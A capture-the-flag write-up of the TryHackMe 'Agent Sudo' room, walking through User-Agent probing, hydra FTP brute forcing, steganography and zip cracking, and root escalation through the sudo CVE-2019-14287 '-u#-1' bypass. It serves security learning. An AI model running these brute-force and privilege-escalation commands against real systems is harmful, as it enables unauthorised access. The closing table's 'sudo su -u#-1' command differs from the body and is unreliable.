# Agent Sudo

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

**Difficulty:** Easy

**Category:** 

**Description:** You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

Additional Info: 



---

## TLDR

The website at port 80 had an announcement to view the site with the user-agent changed to their respective agent names. Brute forcing the agent names led to the endpoint `agent_C_attention.php`. FTP was brute forced for the user `chris` mentioned in that endpoint. Through `steganography`, password for user `james` was found and used to login to SSH. Through enumeration, `sudo` was found to be vulnerable to `CVE-2019-14287`, giving access to root and compromising the system.

---

## Initial Reconnaissance

Nmap scan:

```
nmap -A -v <IP> -oN nmapresult.txt
```



There are 3 ports open: `21, 22, 80`. nmap did not tell whether `FTP` at port 21 had anonymous login enabled, so I checked it out myself.

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/agentsudo]
└─$ ftp 10.48.164.28
Connected to 10.48.164.28.
220 (vsFTPd 3.0.3)
Name (10.48.164.28:Mikayn): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp>
```

It was not enabled, so I shifted my focus to `HTTP` at port 80 first .



It asks users to change their `user-agent` to their respective code names to access the site. Since `Agent R` exists, I assume other agents have similar code names (Agent A, Agent B and so on). 

I changed my user-agent to Agent R via burpsuite and sent a request. But it still gave me the same response. I tried some other variations like `Agent_R`, `Agent-R` but to no avail. 

I used `burp intruder` to bruteforce all Agents from A to Z, but it too gave the same response each time. 


I turned my direction somewhere else, and decided to fuzz for any endpoints. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/agentsudo]
└─$ dirsearch -u http://10.48.164.28 -w /usr/share/dirb/wordlists/common.txt

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 4613

Target: http://10.48.164.28/

[13:16:58] Starting:
[13:17:16] 403 -  277B  - /server-status

Task Completed
```

I went back to the website. Despite the clear hints, I was a bit bamboozled as to why the user-agent was not working. Then I tried sending in the user-agent without the preceeding `Agent` part. 


User-agent with `C` is redirected to `agent_C_attention.php`. I also checked the comparatively larger response length for `Agent R`, but it was only a message. 



In my mind, Agent R was probably the ringleader of these agents, and he had a separate website just like Agent C had `agent_C_attention.php`. 



So we have a username `chris` and there is another agent J. I went back to burp intruder to check if he also had a `agent_J_attention.php`, but he did not. 

### Brute Forcing FTP

With a username known and the hint of password being weak, this was pretty straight forward now. I used `hydra` to brute force the FTP password for chris.

`hydra -l <USER> -P <PATH/TO/WORDLIST> ftp://<IP>`



It took a minute, but hydra found the password. Using that, I logged in to FTP. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/agentsudo]
└─$ ftp 10.48.164.28
Connected to 10.48.164.28.
220 (vsFTPd 3.0.3)
Name (10.48.164.28:Mikayn): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||17681|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

There are 3 files in FTP. 

### Login to FTP as chris

I downloaded all files from the FTP directory in my machine to view them. 

```
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||37167|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |**************************************************************|   217      397.58 KiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (4.51 KiB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||23344|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |**************************************************************| 33143      622.54 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (332.27 KiB/s)
ftp> get cut
cute-alien.jpg  cutie.png
ftp> get cutie.png
local: cutie.png remote: cutie.png
229 Entering Extended Passive Mode (|||54133|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |**************************************************************| 34842      324.64 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (186.56 KiB/s)
```

First I viewed chris’s note to `Agent J`. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/agentsudo]
└─$ cat To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Why would his password be stored in an image though? Anyways its not my place to ask. But this seems like `steganography`.  

### Stegnography on Images

Steganography is the technique of hiding texts, files, images and other data within other ordinary looking files. In this case, when the image is opened in an image viewer, the hidden data is not visible. To extract the data, tools like `steghide` or `stegseek` (hide and seek lol) must be used. 

`steghide` takes a lot of arguments. 


Since I need to extract, the command I used is: `steghide --extract -sf <FILE_NAME>`. 



With steghide, it is possible to add a `passphrase` so that only with the passphrase can the hidden data be extracted. 

Another tool can be used in place of this called `stegseek` which can additionally brute force the passphrase in a stego file. 



It extracted the hidden message for me. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/agentsudo]
└─$ cat cute-alien.jpg.out
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

So nice of chris to spell out `Agent J`’s name for me. Even james’s password looks simple enough. I checked `rockyou` to see if SSH was brute forceable from the start, but the pass was not there. 

Anyways no more side tracking. 

## Shell as james


Since james is in `sudoers` I checked what commands he could run. 

```
james@agent-sudo:~$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

So I can run `/bin/bash` as all users except for root. I was thinking I was gonna have to go horizontally first to another user before root. But, there is no other new user on this machine. 

```
james@agent-sudo:~$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
james:x:1000:1000:james:/home/james:/bin/bash
chris:x:1001:1001::/var/FTP:/bin/sh
james@agent-sudo:~$ ls -al /home
total 12
drwxr-xr-x  3 root  root  4096 Oct 29  2019 .
drwxr-xr-x 24 root  root  4096 Oct 29  2019 ..
drwxr-xr-x  4 james james 4096 Oct 29  2019 james
```

I checked chris’s home directory at `/var/FTP` and it had the same files I had already seen. 

I claimed the user flag first before looking around more. 

```
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt
REDACTED
```

The `Alien_autopsy.jpg` must be the real alien picture chris talked about. 

### Little side track

At this point, I went to TryHackMe to solve some of the questions there and I found an interesting question. 



I never found a zip file though??? I went back to when steganography was introducted (chris’s folder), and I checked both images using `binwalk`. 

`Binwalk` is an extraction tool that scans files to identify, extract, and inspect embedded and compressed data. I only thought of that place where a zip file could have been embedded.

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/agentsudo]
└─$ binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

I completely missed this yet I progressed 😭. I extracted it using `binwalk -e`. The zip file requires a password to unzip. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/agentsudo/_cutie.png.extracted]
└─$ 7z x 8702.zip

7-Zip 26.00 (x64) : Copyright (c) 1999-2026 Igor Pavlov : 2026-02-12
 64-bit locale=en_US.UTF-8 Threads:20 OPEN_MAX:10240, ASM

Scanning the drive for archives:
1 file, 280 bytes (1 KiB)

Extracting archive: 8702.zip
--
Path = 8702.zip
Type = zip
Physical Size = 280

Enter password (will not be echoed):
```

I used `John the Ripper` to crack it. 



Now I could unzip the file and read the content of `To_agentR.txt`. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/agentsudo/_cutie.png.extracted]
└─$ cat To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

The string in quotes seemed like base64. 



This was the other image’s passphrase LOL. So cracking the passphrase was unintentional. At least I could now answer the question and 100% the room. 

Side track ends.

Staying on track of questions, the room asks “What is the incident of the photo called?”. I assume its the `Alien_autospy.jpg` found in james’s folder. I used Python to start a server on james’s folder and downloaded the `Alien_autospy.jpg` on mine to view it (I use WSL). 

```
james@agent-sudo:~$ which python3
/usr/bin/python3
james@agent-sudo:~$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.253.246 - - [22/May/2026 08:30:39] code 404, message File not found
192.168.253.246 - - [22/May/2026 08:30:39] "GET /Alien_autopsy.jpg HTTP/1.1" 404 -
192.168.253.246 - - [22/May/2026 08:30:59] "GET /Alien_autospy.jpg HTTP/1.1" 200 -
```

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/agentsudo]
└─$ wget http://10.48.164.28:8080/Alien_autospy.jpg
--2026-05-22 14:16:01--  http://10.48.164.28:8080/Alien_autospy.jpg
Connecting to 10.48.164.28:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 42189 (41K) [image/jpeg]
Saving to: ‘Alien_autospy.jpg’

Alien_autospy.jpg          100%[=======================================>]  41.20K  --.-KB/s    in 0.1s

2026-05-22 14:16:01 (347 KB/s) - ‘Alien_autospy.jpg’ saved [42189/42189]
```

This was the image: 


Yeah I dont know what this is. A quick google search said the image is from `Roswell`. 

## Shell as root

FInally now I can focus on my main target. I checked sudo version in case there was any exploits related to that. 

```
james@agent-sudo:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Turns out there is a simple exploit associated to it. `sudo -u#-1 <command>` 

`-u` specifies the user. Passing in user with an id of `-1` causes an integer overflow in sudo’s UID handling which makes the negative value wrap around to the highest positive integer. This bypasses the check which blocks root (as seen from `!root` in `sudo -l` ). But the kernel ultimately resolves this UID to root. 

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
root@agent-sudo:~# cd
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
REDACTED

By,
DesKel a.k.a Agent R
```

And thats the root flag. This was a fun challenge. 

---

## Exploitation Chain

| **Step** | **Action** | **Result** |
| --- | --- | --- |
| 1 | Nmap scan | FTP at port 21, HTTP at port 80 |
| 2 | Change User-Agent | Find hidden endpoint `agent_C_attention.php` |
| 3 | Message to `chris`  | Brute force FTP with username `chris`.  |
| 4 | Login to FTP | Find 2 images and note to `Agent J`.  |
| 5 | `stegseek` on image | Obtain `james` password |
| 6 | Login to SSH as james | User flag |
| 7 | `sudo --verion`  | Version vulnerable to `CVE-2019-14287` |
| 8 | Run command `sudo su -u#-1 /bin/bash`  | Shell as root + root flag |